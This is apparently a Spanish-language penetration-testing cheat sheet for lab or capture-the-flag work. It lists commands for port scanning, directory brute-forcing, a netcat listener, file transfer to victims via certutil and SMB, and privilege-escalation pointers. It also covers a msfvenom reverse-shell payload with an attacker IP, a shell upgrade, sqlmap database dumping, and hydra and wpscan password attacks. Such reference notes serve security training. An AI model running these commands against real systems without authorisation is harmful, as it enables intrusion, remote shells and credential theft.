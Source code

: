 ## Identificar puertos abeirtos
```sh
nmap -sS -p- --open -min-rate 5000 -n -vvv -Pn -oG allPorts
```
-oG se guarda en formato grepeable para poder extraer los puertos con extractports \
-sS escaneo sigiloso \
-p- escanea todos los puertos --open \
-min-rate 5000 Intenta enviar al menos 5000 paquetes por segundo \
-n No realiza resolución DNS \
-vvv Muestra resultados muy detallados \
-Pn Desactiva la detección de hosts

## Identificar versiones de los puertos abiertos
```sh
nmap -sV -sC -p<puertos separados por ,> -n -v -Pn -oA scan
```
-sV deteccion de versiones \
-sC ejecuta scripts por defecto \
-n No realiza resolución DNS \
-v muestra resultados detallados \
-Pn Desactiva la detección de hosts\

## Scripts con nmap
```sh
nmap --script "vuln and safe" -p
```
## Gobuster
```sh
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -x .txt,.php -t 100 | grep -v "301"
```
dir para directorio
-u para la url\
-w para pasarle el diccionario\
-x para agregar .txt a todos los datos del diccionario\
-t para los hilos\
| grep -v "301" para no mostrar los status

## Colocarse en escucha
```sh
nc -lvnp <puerto>
```

## Abrir un servidor para transferir archivos
```sh
python3 -m http.server <puerto>
```

## Escalacion de privilegios en Windows (Windows-Exploit-Suggester)
Revissar version   systeminfo\
En el windows se coloca el comando systeminfo y ese output se guarda en linux en un archivo llamado systeminfo.txt
```sh
python2 windows-exploit-suggester -u //descarga el archivo
python2 windows-exploit-suggester -d <archivo descargado> -i systeminfo.txt
```

privilegios whoami /priv\
SeImpersonatePrivilege        Impersonate a client after authentication Enabled >>> juicipotato privilege escalation (churrasco.exe para sistemas antiguos) \(https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)\
o printspoofer\
winpeas

## Transferir archivos de linux a windows
En linux abrir un servidor\
Windows:
```sh
certutil -urlcache -f http://<ip que esta enviando el archivo>:<puerto>/archivo.extension archivo.extension
```
Otra \
linux:
```sh
impacket-smbserver recurso $(pwd) -smb2support
```
windows:
```sh
copy \\<ip atacante>\recurso\archivo.extension archivo.extension
```

## Transferir archivos de linux a linux
Abrir servidor\
recibir:
```sh
wget http://<ip que esta enviando el archivo>:<puerto>/archivo.etension -O archivo.extension
```

## Escalar privilegios en linux
Permisos sudo: 
```sh
sudo -l
```
Permisos suid: 
```sh
find / -type f -perm -4000 -ls 2>/dev/null
```
listar tareas predefinidas : 
```sh
cat /etc/crontab
```
Linux versiones anteriores 
```sh
searchsploit dirty cow
```

## Pasar de hexadecimal a normal
```sh
echo "486f6c61206d756e646f" | xxd -r -p
```

## Pasar de base 64 a normal
```sh
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
```

## Decifrar hash
Saber el tipo de hash
```sh
hashid hash
```
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash -format=Raw-SHA256
```

## Reverseshell msfvenom
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=443 -f aspx -o shell2.aspx
```

## mejorar bash
```sh
script /dev/null -c bash
```
crtl + z
```sh
stty raw -echo; fg
```
```sh
reset xterm
```
```sh
export TERM=xterm
```
En la terminal del atacante para saber el tamaño de nano
```sh
stty size
```
En la terminal de la victima para ajustar el tamaño de nano
```sh
stty rows <rows> columns <columns>
```

##  Listar puertos ocultos
```sh
netstat -na -p tcp
```

## Sql map
Con burpsuite ver la peticion y descargar el archivo como request.txt
```sh
sqlmap -r request.txt --dbms=mysql --dump
```

## Listar smb
Ver recursos compartidos
```sh
smbclient -L ip
```
```sh
smbclient  //ip/recurso
```
Descargar archivo
```sh
get archivo
```
Subir archivo 
```sh
put archiv
```

## Hydra
```sh
hydra -l <usuario> -P <diccionario> <objetivo> <servicio> <opciones específicas del servicio>
```
-l <usuario>: Especifica un solo nombre de usuario.\
-L <archivo>: Especifica un archivo con una lista de usuarios.\
-p <contraseña>: Especifica una sola contraseña.\
-P <archivo>: Especifica un archivo con una lista de contraseñas.\
<objetivo>: La dirección IP o dominio del objetivo.\
<servicio>: El protocolo o servicio a atacar (por ejemplo: ssh, ftp, http-post-form, smb, etc.).\
<opciones específicas del servicio>: Dependiendo del servicio, puedes necesitar opciones adicionales.


## wpscan
```sh
wpscan --url http://ip/ext -U users -P pass
```









